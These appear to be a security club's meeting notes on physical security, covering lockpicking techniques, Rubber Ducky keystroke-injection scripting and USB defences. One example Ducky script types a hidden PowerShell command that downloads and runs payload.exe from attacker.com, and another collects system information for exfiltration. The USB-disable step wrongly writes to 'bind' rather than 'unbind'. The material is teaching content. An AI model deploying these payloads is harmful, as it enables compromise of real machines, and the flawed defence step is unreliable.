 ```yaml
---
title: "Meeting_3"
author: ""
type: ""
date: 2023-09-27T17:49:47-04:00
subtitle: ""
image: ""
tags: []
---
```

# Meeting 3: Physical Security


## Table of Contents
- [Lockpicking](#lockpicking)
  * [Introduction to Lockpicking](#introduction-to-lockpicking)
  * [Common Tools and Their Uses](#common-tools-and-their-uses)
  * [Lockpicking Techniques](#lockpicking-techniques)
  * [Ethical Considerations](#ethical-considerations)
- [Devices](#devices)
  * [Rubber Duckies](#rubber-duckies)
  * [Ducky Script](#ducky-script)
  * [Creative Devices](#creative-devices)
  * [Defending Yourself from USB Attacks](#defending-yourself-from-usb-attacks)

## Lockpicking
<https://simmer.io/@Xill/lockpick-simulator>
Move the tool with Q, E, WASD, and use the slider on the bottom to increase tension.

### Introduction to Lockpicking

Lockpicking is the art of manipulating the components of a mechanical lock without the original key to open it. While often associated with criminal intent, lockpicking is an essential skill for certain professions like locksmithing, and can be a fulfilling hobby for many enthusiasts.

### Common Tools and Their Uses

- **Tension Wrench:** A tool used to apply rotational tension on the lock cylinder. This tension causes the lock pins to bind, allowing the picker to manipulate them.
  
- **Hook Picks:** These tools are used to individually set pins inside the lock.
  
- **Ball Picks:** Used for wafer locks, the ball shape allows manipulation of multiple wafers at once.
  
- **Diamond Picks:** Suitable for both wafer and pin tumbler locks. The shape helps in raking and single pin picking.
  
- **Rakes:** Tools like the Bogota or the snake rake are moved in and out of the lock to quickly set multiple pins at once. Raking is faster but less precise than single pin picking.

### Lockpicking Techniques

1. **Single Pin Picking (SPP):** A technique where each pin is set individually. This is the most versatile method but requires practice.
  
2. **Raking:** A faster method than SPP. The rake is moved in and out of the lock, attempting to set multiple pins at once. It's less precise but can open many locks in seconds.

3. **Bumping:** Using a specially cut key, the lock is "bumped" causing the pins to jump, allowing the lock to turn. Not all locks are vulnerable to this technique.

4. **Impressioning:** A method where a blank key is inserted into the lock and manipulated to leave marks indicating where cuts should be made.

## Devices
### Rubber Duckies
Popularized by Hak5, this is a common language for keystroke injector tools.

Some keystroke injectors double as both a real USB and a keystroke injector, so the victim won't notice the difference. 
#### Installing Script Emulator
We would like to use this program <https://github.com/taibhse-designs/DuckyEmulator>

So we get it with 

`git clone https://github.com/taibhse-designs/DuckyEmulator.git`

Go into the following directory with this command

`cd DuckyEmulator/src/duckyemulator`

Run the following command in the `duckyemulator` directory

`curl https://dlcdn.apache.org//commons/codec/binaries/commons-codec-1.16.0-bin.tar.gz -o commons-codec-1.16.0-bin.tar.gz`

Extract the library with

`tar -xzf commons-codec-1.16.0-bin.tar.gz `

And compile the java code with

`javac -cp .:commons-codec-1.16.0/commons-codec-1.16.0.jar *.java`

From the `duckyemulator` directory: `java -cp .:duckyemulator/commons-codec-1.16.0/commons-codec-1.16.0.jar duckyemulator.DuckyEmulator`


### Ducky Script
Simple .txt files. 

#### Ducky Payloads
+ <https://github.com/hak5/usbrubberducky-payloads/tree/master>
+ <https://shop.hak5.org/blogs/payloads>

+ REM: Used for comments. It doesn't affect the script's execution.
```ducky
REM This is a comment
```
+ DELAY: Pauses the script for a specified number of millisecond
```
DELAY 1000  REM Waits for 1 second
```
+ STRING: Types the subsequent string of characters as if typed on a keyboard.
```
STRING Hello, World!
```
+ ENTER (or RETURN): Simulates pressing the Enter key.
```
ENTER
```
+ GUI (or WINDOWS or COMMAND): Simulates pressing the Windows key (on Windows) or Command key (on macOS).
```
GUI r  REM Opens the Run dialog on Windows
```
+ ALT, CONTROL (or CTRL), SHIFT: Modifier keys used in combination with other keys.
```
CONTROL ALT DELETE  REM Sends the Ctrl+Alt+Del command
```

##### Example Payloads
+ Payload Delivery: Use Ducky Script to automate the process of downloading and executing a payload from a remote server.
```
REM Open a command prompt
GUI r
STRING cmd
ENTER
DELAY 500
REM Download and execute payload
STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'http://attacker.com/payload.exe' -OutFile 'C:\temp\payload.exe'; Start-Process 'C:\temp\payload.exe'"
ENTER
```
+ Information Gathering: Quickly execute commands to gather system information and save to a file or exfiltrate.
```
REM Gather system info using systeminfo command
GUI r
STRING cmd
ENTER
DELAY 500
STRING systeminfo > C:\temp\info.txt
ENTER
```

### Creative Devices
Cables:
+ <https://zsecurity.org/product/badusb-c-keystroke-injection-cable/>
+ <https://shop.hak5.org/products/omg-cable>

Bash Bunny:
+ <https://shop.hak5.org/products/bash-bunny>
+ <https://github.com/hak5/bashbunny-payloads>

### Defending yourself from USB Attacks
#### Turning off your ports
+ Windows Device Manager
+ Linux Mint
    1. Run `lsusb` to determine the bus and device number of the USB device you want to disable.
    2. To disable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/unbind`. For example, if your device is on bus 2 and its device ID is 1, you would run:
    
    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```

    3. To re-enable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/bind`:

    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```



